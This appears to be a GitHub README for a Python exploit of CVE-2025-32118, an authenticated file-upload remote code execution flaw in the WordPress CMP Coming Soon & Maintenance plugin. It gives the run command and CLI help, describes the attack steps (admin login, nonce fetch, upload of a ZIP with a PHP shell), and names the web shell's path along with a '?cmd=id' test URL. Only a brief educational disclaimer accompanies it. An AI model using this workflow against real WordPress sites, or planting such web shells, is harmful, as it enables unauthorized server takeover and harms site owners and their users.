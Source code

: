 
# 🚀 CVE-2025-32118 - WordPress CMP Plugin RCE Exploit

🔍 **Title:** WordPress CMP – Coming Soon & Maintenance plugin <= 4.1.13 - Remote Code Execution (RCE)  
🗓️ **Published:** 2025-04-04   
🔐 **CWE:** CWE-434 - Unrestricted Upload of File with Dangerous Type  
📊 **CVSS:** 9.1 (CRITICAL) — CVSS:3.1/AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H

---

## 📜 Description

A critical **Remote Code Execution** (RCE) vulnerability exists in the **CMP – Coming Soon & Maintenance** plugin for WordPress (<= 4.1.13).  
This flaw allows an **authenticated admin user** to upload malicious ZIP files containing executable PHP shells, leading to **full site compromise**.

---

## 💥 Impact

- Upload of arbitrary PHP code inside the plugin directory
- Unrestricted execution of system commands via web shell
- Potential full server takeover

---

## ⚙️ Requirements

- WordPress site with vulnerable CMP plugin installed (`<= 4.1.13`)
- Valid WordPress admin credentials (Authentication Required)

---

## 💻 Usage

```bash
python3 CVE-2025-32118.py -u http://target-site.com/wordpress -un admin -p password
```

## ✍️ Usage (CLI Help Output)

```
usage: CVE-2025-32118.py [-h] -u URL -un USERNAME -p PASSWORD
Exploit For CVE-2025-32118 : By Nxploited - Khaled Alenazi

options:
  -h, --help            show this help message and exit
  -u, --url URL         Base URL of WordPress site
  -un, --username USERNAME   Admin username
  -p, --password PASSWORD    Admin password
```

---



### 📌 Arguments:

| Flag       | Description                    |
|------------|--------------------------------|
| `-u`       | Base URL of WordPress site     |
| `-un`      |       username                 |
| `-p`       |       password                 |

---

## 🧪 What it does:

1. Authenticates to the WordPress admin panel.
2. Fetches a valid `nonce` for upload request.
3. Creates a malicious ZIP with:
   - `style.css` (valid theme format)
   - `nxploitedshell.php` (RCE payload)
4. Uploads the ZIP using the vulnerable theme upload functionality.
5. Verifies the shell by executing `?cmd=whoami`.

---

## 📂 Shell Location

Once uploaded successfully, the shell will be located at:

```
/wp-content/plugins/cmp-premium-themes/nxploitedshell/nxploitedshell.php
```

Test it via:

```bash
http://target-site.com/wp-content/plugins/cmp-premium-themes/nxploitedshell/nxploitedshell.php?cmd=id
```

---

## ❗ Disclaimer

> This exploit is for **educational purposes** only.  
> Unauthorized use of this code **against systems you don't own** is illegal and unethical.

---

## 🔗 Reference

- [CVE-2025-32118 on MITRE](https://cve.mitre.org/)
- CWE-434: [https://cwe.mitre.org/data/definitions/434.html](https://cwe.mitre.org/data/definitions/434.html)

---

## ✒️ By:
*Nxploited | Khaled Alenazi*
